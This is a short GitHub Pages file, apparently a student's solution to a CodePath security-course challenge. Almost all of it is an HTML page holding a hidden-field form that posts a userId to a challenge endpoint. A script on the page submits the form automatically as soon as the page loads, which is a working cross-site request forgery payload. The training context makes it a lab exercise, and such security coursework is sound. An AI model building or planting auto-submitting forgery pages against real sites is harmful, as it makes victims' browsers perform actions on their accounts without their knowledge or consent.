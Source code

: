 # JLPlummer79.github.io

    <form name="csrfform" action="https://security.codepath.com/user/csrfchallengtwo/plusplus" method="POST">
      <input type="hidden" name="userId" value="44b8f83b681b706eb2acff708611625dd6a9069cc"/>
      <input type="submit"/>
    </form>
    <script> document.csrfform.submit();  </script>
 
